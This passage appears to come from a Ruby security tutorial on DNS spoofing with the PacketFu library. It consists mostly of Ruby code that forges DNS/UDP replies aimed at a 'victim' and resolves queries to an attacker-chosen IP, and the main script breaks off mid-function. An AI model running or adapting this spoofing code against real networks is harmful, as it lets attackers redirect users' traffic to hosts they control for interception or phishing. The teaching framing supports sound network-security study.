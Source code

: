 ```ruby

spoofing_ip = "69.171.234.21"
spoofing_ip.split('.').map {|octet| octet.to_i}.pack('c*')

  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst
  response.udp_dst   = packet.udp_src
  response.ip_saddr  = packet.ip_daddr
  response.ip_daddr  = "192.168.0.21"
  response.eth_daddr = "00:0C:29:38:1D:61"


```


Wrapping up 

```ruby
#!/usr/bin/env ruby
# -*- coding: binary -*-

# Start the capture process
require 'packetfu'
require 'pp'
include PacketFu


def readable(raw_domain)
  
  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1 .. full_length + length_offset]
    full_length   = raw_domain[0 .. full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

#
# Send Response
#
def spoof_response(packet, domain)

  attackerdomain_name = 'rubyfu.net'
  attackerdomain_ip   = '54.243.253.221'.split('.').map {|oct| oct.to_i}.pack('c*')  # Spoofing IP

  # Build UDP packet
  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst             # source port
  response.udp_dst   = packet.udp_src             # destination port
  response.ip_saddr  = packet.ip_daddr            # modem's IP address to be source
  response.ip_daddr  = packet.ip_saddr            # victim's IP address to be destination
```

[1]: ../files/module03/dns_spoofing_dns-req_res.pcap.pcapng
[^1]: [DNS Spoofing Using PacketFu](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/)
[^2]: [Manipulating The Network with PacketFu](http://tuftsdev.github.io/DefenseOfTheDarkArts/assignments/manipulatingthenetworkwithpacketfu-110314111058-phpapp01.pdf)
[^3]: [DNS Header Flags](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-12)
[^4]: [DNS Lookups Types](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4)